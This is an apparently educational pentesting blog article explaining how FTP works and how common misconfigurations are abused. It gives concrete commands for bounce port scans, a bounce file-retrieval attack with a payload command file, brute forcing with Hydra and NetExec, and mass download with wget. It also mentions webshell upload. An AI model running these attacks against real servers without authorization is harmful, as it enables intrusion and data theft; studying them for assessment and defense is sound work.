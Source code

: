 ```yaml
---
title: "Intro to FTP"
summary: “This article introduces FTP (File Transfer Protocol), a client-server protocol used for file transfers over a network. It explains FTP’s architecture, communication channels, commands and security risks.”
date: 2024-11-14
tag:
  - Cybersecurity
  - Pentesting
  - FTP
---
```


FTP (File Transfer Protocol) is one of the **oldest and most widely** used protocols for **transferring files** between computers. While it provides a simple way to move data, its default configuration lacks security, making it a common target for attackers. In this article, we’ll cover the basics of FTP, its **communication modes**, **essential commands**, and **common misconfigurations** that could be exploited. Whether you're a cybersecurity enthusiast or a penetration tester, understanding FTP is crucial for securing or assessing network environments.

<!-- more -->

This protocol has a client-server architecture using a server to serve files that can be accessed by N clients. By default, **the information is transmitted in plain text**, although there is an encrypted version of it called SFTP (Secure File Transfer Protocol).


Although there are implementations with a graphical interface, in this article we will make use of the FTP command line tool, which gives us a lot of flexibility when working with the protocol. In later articles we will explore the main client and server implementations, although in this one we will focus on explaining the basic concepts of the protocol, how to work with it and how to take advantage of some misconfigurations.

## Theory

### Communication channels

For FTP to work, two communication channels are required, one for sending commands and the other for data.

### Connection modes

#### Active

This is the default connection mode for FTP connections, in which two events occur:

- A command channel is established in the connection to the server between the server's command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established, an attempt is made to open a connection from the server's data port (20 by default) to port P+1 on the client.

!!! note

    Active mode may present problems with client firewalls because it attempts to create a direct connection to a client-side port, which may be blocked by certain firewalls.

#### Passive

This mode arises as a solution to the problem of client firewalls, here the workflow is modified so that both the data connection and the client connection are initiated from the client, we can break it down into two events.

- A command channel is established on the server connection between the server command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established a data connection is opened from port P+1 on the client to a port on the server data channel, this process is repeated for each file transfer occupying a different server port on each connection (this can be configured in most server side software) .

!!! note

    Passive mode requires the opening of a range of ports in the firewall, this can generate some security problems if this port opening is not configured correctly.

## FTP commands

```bash
CWD -> Changes the current directory to the specified one
DELE -> Deletes the specified file
EPRT -> Establish a socket for data connection
LIST -> List the files in the current directory
PASV -> Change mode to passive mode
PWD -> Displays the current directory 
RETR -> Download the specified file
```

## Anonymous login

There is an FTP configuration that allows the use of a login to share files for any user that requires it, in case this configuration is enabled a user could use anonymous as login name and any password to access the server as a user with low privileges, although in certain cases this can lead to compromise the entire system.

## FTP Bounce port scan

It is possible to abuse the PORT and ERPT commands to perform an open port scan via an FTP server.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Once connected we can perform the port scan using the PORT and ERPT commands followed by a LIST command.

Here is an example for scanning port 9091 on host 10.10.10.14

```bash
PORT 10.10.10.14.14.0.9091
EPRT |2|10.10.10.14|9091||

LIST
```

If the response is a 150 the port is open, in case of receiving a 415 the port is closed.

## FTP Bounce file get

This attack allows an attacker to download files from an FTP server not accessible by the attacker, but which can be reached by an FTP server accessible by the attacker.

<figure markdown="span">
    ![Net Diagram](../../assets/posts/2024/11/14/net_diagram.png)
  <figcaption>Net Diagram</figcaption>
</figure>

This attack has the following prerequisites:

- Valid credentials for External FTP.
- Valid credentials for Internal FTP.
- Write access for External FTP.
- PORT command execution permissions on both External and Internal.

First of all we will deploy an FTP server on the attacker's machine, this server has to support passive mode.

Once deployed we will open a passive connection with the PASV command and tell it to save it with STOR output.ext .

Now we will create a file with the commands we want to launch against the second server, an example would be the following:

```bash
user ftp # User for the internal server
pass password # Password for the internal server
cwd /DIRECTORY
type i
port F,F,F,F,F,F,X,X #Our passive port
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Now we upload it with PUT and from the external server we execute the following commands:

```bash
put payload
quote "port C,C,C,C,C,0,21" # IP of internal server
quote "retr payload"
```

After this we will have the file.ext file on our server as output.ext

## Brute force attack

Many FTP servers do not have protection against brute force attacks. Having a user or a list of them we can carry out a brute force attack with different credentials obtained from various sources, although there are several tools for this purpose, the two most common are NetExec and Hydra.  

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Full content backup

This is not an attack per se, but it is quite useful, as it allows us to download all accessible files from the server using a single command.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

In certain circumstances, permission to upload files to the server along with other misconfigurations can lead to obtaining remote execution of commands on the server.

The most common case is the possibility of uploading files to be served by a web server, where we could upload a webshell interpretable by the server to obtain command execution.

## Sniffing credentials

Since FTP works by default in plain text, it is possible for an attacker on the same network to use a sniffer and capture both the credentials and the FTP conversation.

In the next article of this series on FTP we will discuss common implementation errors and some known vulnerabilities of some implementations of the protocol.

---